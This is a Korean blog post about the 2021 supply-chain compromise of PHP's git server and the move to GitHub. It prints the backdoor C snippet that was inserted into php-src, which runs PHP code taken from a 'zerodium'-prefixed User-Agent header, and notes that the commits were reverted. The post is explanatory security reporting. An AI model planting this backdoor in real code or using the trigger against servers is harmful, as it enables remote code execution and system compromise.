 ```yaml
---
layout: post
id: 20
title: "PHP의 Git 서버가 해킹되었습니다."
subtitle: "PHP가 공급망 공격에 피해를 입었습니다."
description: "PHP의 깃 서버인 git.php.net이 공급망 공격을 당해 앞으론 github이 메인으로 사용되어집니다."
type: "PHP"
created_at: "2021-03-29"
updated_at: "2021-03-29"
blog: true
text: true
author: "silnex"
post-header: true
header-img: "img/hacked-php.png"
order: 20
tags: ["php", "hacking", "supply-chain-attack"]
comments: true
---
```


> PHP 인터널 공지: [https://news-web.php.net/php.internals/113838](https://news-web.php.net/php.internals/113838)

# TR; TL;

PHP의 git 서버가 공급망 해킹에 당해 앞으로 php-src는 Github를 메인으로 사용합니다.  
하지만 여러분에 서버에 설치된 PHP가 취약한 것은 아닙니다.  
다만, `php-src`를 직접 컴파일하여 사용하시는 분은 악성 커밋([1](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d), [2](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a))이 소스코드에 포함되어 있는지 확인이 필요합니다.

# 공급망 공격? (Supply chain attack)

공급망 공격이란 기존의 어플리케이션이나, 서비스를 공격했던 방식이 아닌 어플리케이션 혹은 서비스에서 사용중인 vendor에 악성 코드를 심는 방식으로,
최근 오픈소스로 관리되어지는 vendor혹은 패키지의 수가 많아지고, 누구나 수정할 수 있는 점을 이용한 공격 방식입니다.

# PHP-src에 삽입된 악성 코드

```c
zval *enc;

if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
	(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
	convert_to_string(enc);
	if (strstr(Z_STRVAL_P(enc), "zerodium")) {
		zend_try {
			zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
		} zend_end_try();
	}
}
```
이 코드는 문자열이 `zerodium`으로 시작하는 경우 `User Agent` HTTP 헤더에 삽입된 PHP코드를 실행 시키는 악성 코드입니다.

근데 이 악성커밋의 작성자가 PHP 주요 개발자인 `Nikita Popov`계정과 `Rasmus Lerdorf`계정으로 푸시되어 있어 [PHP internals](https://news-web.php.net/php.internals)에서 많은 이야기가 오고 갔습니다.

Nikita Popov는 최종적으로 자체 git 서버가 아닌 기존에 미러용으로 사용하던 Github의 Repo에서 관리하기로 했으며, 개발자들에게 `2FA`를 사용하라고 권고 했습니다.

# 복구 및 피해 규모

악성 커밋은 모두 Revert 되었으며, 현재 모든 Repo에 대해서 악성 커밋을 확인하고 있다고 합니다.

PHP 보안팀과 Nikita Popov가 확인한 결과 악성 커밋이 완료된 후 Fork나 Clone된 경우가 있긴 하지만, 실제 릴리즈에는 포함되지 않는단고 전했습니다.  
또한 Nikita Popov는 해당 브랜치는 PHP 8.1 개발용 브랜치로 연말에 출시될 예정이였다고 합니다.

이후 기존의 git 서버는 폐기되고 Github로 이동된다고 합니다.

# 마치면서

공급망 공격에 대한 경각심을 불러 일으킬만한 아주 좋은 예시가 이번에 생긴것같습니다. (PHP가 아니였음 했지만.. ㅜ)

더욱이 기존 프로젝트들이 외부 패키지나 라이브러리를 많이 의존하고 있었는데, 
이후 자체 제작을 지향하거나, 패키지 도입에 신중히 고민할 필요성이 예전보다 더욱더 생긴 것 같습니다.